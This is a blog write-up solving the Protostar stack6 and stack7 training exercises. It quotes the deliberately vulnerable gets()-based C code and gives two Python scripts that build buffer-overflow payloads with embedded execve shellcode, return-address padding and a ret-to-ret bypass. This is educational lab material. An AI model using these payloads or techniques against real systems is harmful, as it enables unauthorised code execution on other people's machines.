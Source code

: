 ```yaml
---
layout: post
title:  "Protostar Exploit Exercises: Stacks Part Three"
---
```


## [stack6](https://exploit-exercises.com/protostar/stack6/)

>###About
>
>Stack6 looks at what happens when you have restrictions on the return address.
>
>This level can be done in a couple of ways, such as finding the duplicate of the payload (objdump -s) will help with this), or ret2libc, or even return orientated programming.
>
>It is strongly suggested you experiment with multiple ways of getting your code to execute here.

Let's have a look at a excerpt from the code.

{% highlight c %}
void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}
{% endhighlight %}

In [my previous post]({% post_url 2016-01-11-protostar-part-two %}), I
used a  return address which  pointed to  somewhere on the  stack (the
stack  in  linux  is  usually  located  around  0xbffff000).  In  this
challenge, that's  no longer  possible since  the function  checks the
return address  & quits if the  address we've provided is  pointing to
somewhere on the stack.

## ROP-solution: Return oriented halting

Even though the C-code does not allow us to jump into our buffer,
there's no protection beyond that point. So what if we jumped to a location,
that jumps to a location?

![Return deeper]({{ site-url }}/assets/post_images/protostar_part3_go_deeper.png)

{% highlight python %}
# shellcode.py
from struct import pack

ret    = pack('L', 0x08048508)
buffer = pack('L', 0xbffff76c)
# https://www.exploit-db.com/exploits/37289/
shellcode = '\x31\xc0\x50\x68\x68\x61\x6c'+\
    '\x74\x68\x69\x6e\x2f\x2f\x68\x2f\x2f'+\
    '\x73\x62\x89\xe3\x50\x89\xe2\x53\x89'+\
    '\xe1\xb0\x0b\xcd\x80'

# esp = 0xbffff7bc
# buffer = 0xbffff76c
padding = "A" * (0xbffff7bc-0xbffff76c - len(shellcode))

payload = shellcode + padding + ret + buffer

print(payload)
{% endhighlight %}

`python shellcode.py > shellcode`

All we need to do is find a instruction *somewhere* in memory that 
holds a `ret` instruction. 

So when the `ret` in `getpath` executes, 4 bytes are popped of the stack
into eip & provided that eip is now pointing at another `ret` instruction,
another 4 bytes are popped of the stack & into eip. Right?

![Yep]({{ site-url }}/assets/post_images/protostar_part3_quite_right.png)

Right.

*note: The `pop` instruction increments the stack-pointer by 4, so we
 need to place the next return address after our initial one.*

There you have it. I might revisit this challenge with the ret2libc
solution later but for now - I've been unable to find the
system-function loaded in via libc in the executable. Looking for it
in gdb only yields `__libc_system`.

![Frowntown]({{ site-url }}/assets/post_images/protostar_part3_no_system.png)

* * *

## [stack7](https://exploit-exercises.com/protostar/stack7/)

> Stack6 introduces return to .text to gain code execution.
>
>The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

The `getpath` function is back, and this time... it's personal.

{% highlight c %}
char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}
{% endhighlight %}

Let's have a look in gdb.

strdup returns the address of the allocated string in the eax register.

We can get around the return-address check if we jump to the buffer
allocated by strdup. Very much like the previous challenge, I used gdb
to set a breakpoint at the `ret` instruction in getpath, took note of the 
following states:

+ The returned address from strdup stored in eax
  In my case this was 0x804a008

+ The value of esp
  In my case this was 0xbffff7bc

+ The address of the buffer
  In my case this was 0xbffff76c

{% highlight python %}
from struct import pack

shellcode = '\x31\xc0\x50\x68\x68\x61\x6c\x74'+\
    '\x68\x69\x6e\x2f\x2f\x68\x2f\x2f\x73\x62'+\
    '\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b'+\
    '\xcd\x80'
payload = shellcode +\
    'A'*(0x7bc-0x76c - len(shellcode)) +\
    pack('L', 0x804a008)

print(payload)
{% endhighlight %}

![Success]({{ site-url }}/assets/post_images/protostar_part3_ez_stack7.png)

![Happy]({{ site-url }}/assets/post_images/happy_zizek.jpg)

Now onto the Format challenges! :D

Thanks for reading!


